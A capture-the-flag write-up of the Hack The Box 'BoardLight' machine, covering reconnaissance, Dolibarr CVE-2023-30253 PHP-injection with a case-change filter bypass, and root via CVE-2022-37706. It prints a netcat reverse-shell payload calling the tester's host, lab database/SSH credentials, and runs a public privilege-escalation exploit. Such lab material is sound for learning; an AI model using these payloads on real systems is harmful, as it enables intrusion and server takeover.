










<div align="center"> <script src="https://www.hackthebox.eu/badge/1670709"></script> </div>

---

BoardLight is an easy difficulty Linux machine that features a `Dolibarr` instance vulnerable to [CVE-2023-30253](https://nvd.nist.gov/vuln/detail/CVE-2023-30253). This vulnerability is leveraged to gain access as `www-data`. After enumerating and dumping the web configuration file contents, plaintext credentials lead to `SSH` access to the machine. Enumerating the system, a `SUID` binary related to `enlightenment` is identified which is vulnerable to privilege escalation via [CVE-2022-37706]( https://nvd.nist.gov/vuln/detail/CVE-2022-37706) and can be abused to leverage a root shell.

# Port Scan

```sh
nmap --min-rate 10000 -p- 10.129.98.8
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-01 18:59 EAT
Warning: 10.129.98.8 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.129.98.8
Host is up (0.56s latency).
Not shown: 63582 closed tcp ports (reset), 1951 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 31.37 seconds
--------------------------------------------

nmap --min-rate 10000 -sU -p- 10.129.98.8
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-01 19:00 EAT
Warning: 10.129.98.8 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.129.98.8
Host is up (0.51s latency).
All 65535 scanned ports on 10.129.98.8 are in ignored states.
Not shown: 65444 open|filtered udp ports (no-response), 91 closed udp ports (port-unreach)

Nmap done: 1 IP address (1 host up) scanned in 92.74 seconds

```

```sh
nmap -sC -sV -p22,80 10.129.98.8 -o nmap 

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 06:2d:3b:85:10:59:ff:73:66:27:7f:0e:ae:03:ea:f4 (RSA)
|   256 59:03:dc:52:87:3a:35:99:34:44:74:33:78:31:35:fb (ECDSA)
|_  256 ab:13:38:e4:3e:e0:24:b4:69:38:a9:63:82:38:dd:f4 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Site doesnt have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
 From the scan we see we that the Operating System we are working with is `Ubuntu` .  
 We have two open ports with port 22 running `ssh` while port 80 has a web application .
# Web(80)
Visiting the site we have:  

We do get a valid email from the `contact.php` page : `info@board.htb`  
Here are some of the vhost and dirscan i tried here :
```sh
gobuster dir -u http://10.129.98.8 -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt -o gobuster

ffuf -u http://board.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H "Host : FUZZ.board.htb "

feroxbuster -u http://board.htb

gobuster vhost -u http://board.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt 

```

At first was confused since the scans like in ffuf for the vhost were returning a 200 code which from my understanding is success or the vhost does exist but i later used a filter on the size and got one that was behaving different from the rest.

```sh
ffuf -u http://board.htb/ -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -H "Host: FUZZ.board.htb" -fs 15949

...[snip]...

crm                     [Status: 200, Size: 6360, Words: 397, Lines: 150, Duration: 2201ms]

```

now we can add this to our `/etc/hosts` inorder to access the site.
```
10.129.222.212	board.htb crm.board.htb
```

## Vhost
Visiting `http://crm.board.htb`  we get :


It's running `Dolibarr` which is :  
```
Dolibarr ERP CRM is an open source, free software package for companies of any size, foundations or freelancers. It includes different features for enterprise resource planning (ERP) and customer relationship management (CRM), and also other features for different activities.
```

We also got the version no `Dolibarr 17.0.0`
A quick search gets us the default credentials.


we do login



With the version no i did also search for an exploit and got that the version is vulnerable to `CVE-2023-30253` and reading this [article](https://www.swascan.com/security-advisory-dolibarr-17-0-0/) does aid in understanding the exploit better.

## Exploitation
The vulnerability allows authenticated attacker can obtain remote command execution via php code injection bypassing the application restrictions.
First we need to confirm that we have the permissions needed  




When we  add the php code :



We did expect this since the test user can’t modify the website with php code (dynamic php code disabled).  
We can bypass this by changing the case for example instead of `php` we write `pHp`

We do get to bypass the restrictions

Now we test the command injection



we can confirm this:



To get a reverse shell we can use the bash one had some errors.
```
<?PHP echo system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc
10.10.16.11 9001 >/tmp/f");?>
```



From this we do get shell on our nc listener 
The shell drops us on the website directory and reading the files we get one interesting to us which is the `/conf.php` 

```sh
www-data@boardlight:~/html/crm.board.htb/htdocs/public/website$ cat
/var/www/html/crm.board.htb/htdocs/conf/conf.php
[...SNIP...]
$dolibarr_main_data_root='/var/www/html/crm.board.htb/documents';
$dolibarr_main_db_host='localhost';
$dolibarr_main_db_port='3306';
$dolibarr_main_db_name='dolibarr';
$dolibarr_main_db_prefix='llx_';
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='serverfun2$2023!!';
$dolibarr_main_db_type='mysqli';
$dolibarr_main_db_character_set='utf8';
[...SNIP...]
```

The `/etc/passwds` file shows the users we can log in 
```sh
www-data@boardlight:~/html/crm.board.htb/htdocs/public/website$ cat /etc/passwd | grep sh$
root:x:0:0:root:/root:/bin/bash
larissa:x:1000:1000:larissa,,,:/home/larissa:/bin/bash

```

ssh creds : 
- username : `larissa`
- password : `serverfun2$2023!!`

# Privilege Escalation
We do get a shell as `larissa`
```sh
ssh larissa@board.htb

larissa@boardlight:~$ whoami
larissa
larissa@boardlight:~$ id
uid=1000(larissa) gid=1000(larissa) groups=1000(larissa),4(adm)
larissa@boardlight:~$ 

```
Now we start our priv esc
- `sudo -l` show we can't run any commands with root priv without a password.
-  `find / -perm -u=s -type f 2>/dev/null`

```sh
larissa@boardlight:~$ sudo -l
[sudo] password for larissa: 
Sorry, user larissa may not run sudo on localhost.
larissa@boardlight:~$ find / -perm -u=s -type f 2>/dev/null
/usr/lib/eject/dmcrypt-get-device
/usr/lib/xorg/Xorg.wrap
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_ckpasswd
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_backlight
/usr/lib/x86_64-linux-gnu/enlightenment/modules/cpufreq/linux-gnu-x86_64-0.23.1/freqset
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/sbin/pppd
/usr/bin/newgrp
/usr/bin/mount
/usr/bin/sudo
/usr/bin/su
/usr/bin/chfn
/usr/bin/umount
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/fusermount
/usr/bin/chsh
/usr/bin/vmware-user-suid-wrapper

```

Among the files listed, enlightenment stands out it has the Set User ID (SUID) bit set, allowing it to run with the privileges of the file owner, which in this case is root . It is a lightweight and visually appealing desktop environment that provides a graphical user interface for Linux systems.

A quick Google search for vulnerabilities affecting this particular version leads us to CVE-2022-37706, which describes a flaw in enlightenment_sys in Enlightenment versions before 0.25.4 . This vulnerability allows local users to gain elevated privileges because the binary is SUID and owned as the root user, and the system library function mishandles path names that begin with a /dev/.. substring. We also come across this [proof of concept script](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit/tree/main), which we proceed to download to our local machine.

```sh
larissa@boardlight:/dev/shm$ ls
exploit.sh
larissa@boardlight:/dev/shm$ bash exploit.sh 
CVE-2022-37706
[*] Trying to find the vulnerable SUID file...
[*] This may take few seconds...
[+] Vulnerable SUID binary found!
[+] Trying to pop a root shell!
[+] Enjoy the root shell :)
mount: /dev/../tmp/: can''t find in /etc/fstab.
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root),4(adm),1000(larissa)
# 

```